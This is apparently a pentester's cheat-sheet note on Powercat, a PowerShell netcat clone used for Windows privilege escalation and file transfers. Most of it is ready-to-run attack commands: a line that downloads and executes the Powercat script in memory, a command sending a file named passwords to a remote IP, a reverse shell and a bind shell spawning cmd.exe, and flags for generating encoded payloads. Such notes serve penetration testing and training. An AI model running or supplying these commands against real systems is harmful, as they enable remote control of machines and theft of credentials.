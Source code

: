 # Powercat 
The Powershell clone of Netcat written by [besimorhino](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and similar useful as netcat but only useful for [[Windows-Privilege-Escalation-Vectors]], [[Active-Directory-Privilege-Escalation]] and [[Windows-File-Transfers]]

## Setup
```powershell
. .\powercat.ps1

iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

powercat -h
```

## File transfers
```powershell
# Recieve here:
powercat -l -p 54321 -of $filename
# Exfiltrate with:
powercat -c 10.10.10.10 -p 54321 -i C:\passwords

```

## Reserve Shells
```powershell
powercat -c 10.10.10.10 -p 54321 -e cmd.exe
```

## Bind Shells
```powershell
powercat -l -p 1337 -e cmd.exe
```

## Powercat Payloads
Powercat payloads are generated by Powercat that is a set Powershell instrcutions combine parts of the Powercat script.
```powershell
-g # generate payload
-ge # generate encoded payload
